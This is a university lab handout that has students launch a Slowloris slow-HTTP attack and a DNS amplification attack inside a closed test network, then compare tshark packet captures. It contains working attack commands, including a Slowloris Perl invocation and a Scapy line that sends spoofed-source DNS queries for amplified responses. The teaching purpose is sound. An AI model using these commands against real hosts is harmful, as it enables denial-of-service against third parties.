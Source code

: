# 🖥 Lab 2B: Attack Generation(2)

continue from Attack Generation(1)

In lab 2B, we going to perform another 2 types of DDoS attack: SlowHttp and DNS Amplification.



## Slow Http Attack

In the CnC machine, ssh into one of the bots available:

| <p>#ssh 192.168.10.109 or 192.168.10.132</p><p>root@bot~# perl slowloris.pl -dns 192.168.10.112</p> |
| --------------------------------------------------------------------------------------------------- |

Wait 3\~5 minutes to see the effect. Stop this attack by hit Ctrl+C.

(Sometimes, you might see the effect on the webpage load time only after stopping the attack.)

\
DNS Amplification Attack
------------------------

DNS IP: 192.168.10.100

try: dig bighost.cu.ddos @192.168.10.100 +dnssec \
to see if DNS server works well.

First ssh to the host machine of the bot VM.\
Bot1: 192.168.10.109 Hosted on machine:192.168.10.21\
Bot2: 192.168.10.132 Hosted on machine:192.168.10.20\
Credentials posted on canvas before.\


Then capture the traffic(original request packets). The MAC address in the filter should be the MAC address of the host machine\
192.168.10.21 - f0:4d:a2:ea:6c:e5\
192.168.10.20 - f0:4d:a2:e9:a3:a9

| <p>$ssh usename@192.168.10.21(or 20)<br>$tshark -i enp2s0 -c 100 -f 'port 53 and not ether host f0:4d:a2:ea:6c:e5' -w {yourname}_bot_log.pcap -F libpcap</p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| (or the other MAC)                                                                                                                                           |



Then you can leave this terminal open until the DNS amplification attack is finished.&#x20;

Hit Ctrl+C to stop logging or wait until 100 packets are received.

Open another terminal and ssh into the victim’s host machine(192.168.10.22) and start capture traffic(amplified traffic) on victim machine(MAC:08:00:27:00:90:a6):

| $tshark -i enp2s0 -c 100 -f 'ether host 08:00:27:00:90:a6' -w {yourname}\_victim\_log.pcap -F libpcap |
| ----------------------------------------------------------------------------------------------------- |

You can leave this terminal open until the DNS amplification attack is finished.&#x20;

Hit Ctrl+C to stop logging or wait until 100 packets are received.

Then ssh into one of the bots from CnC machine and open scapy:

| <p>#ssh 192.168.10.109<br>root@bot~:# scapy<br>>>></p> |
| ------------------------------------------------------ |

Execute the following command in the scapy shell to launch a DNS amplification attack:

| >>> send(IP(src="192.168.10.112", dst="192.168.10.100")/UDP(dport=53)/DNS(qd=DNSQR(qname="bighost.cu.ddos"), ar=DNSRR(rrname=".", type=41, rclass=4096, ttl=32768)),count=10,inter=0.01,verbose=False) |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |

To exit scapy:

| >>> exit() |
| ---------- |

Or Ctrl+D

This attack might not show change in the webpage load time necessarily for you, but you can analyze the pcap log file you created on the victim and the attacker host to compare the traffic. There should be a clear difference between the two.

Hint: the number of DNS queries and the corresponding number of responses are expected to be different. Find other differences in your analysis as well.&#x20;

In addition to analyzing the traffic on wireshark, you can also read the file using tshark by running the following command on your machine:

| tshark -r \<filename> |
| --------------------- |

You should be able to compare the data of the two files to observe DNS Amplification.&#x20;



## Lab Report:

Due date given in Canvas Syllabus

Make sure you did your lab by yourself, not under other students help.\

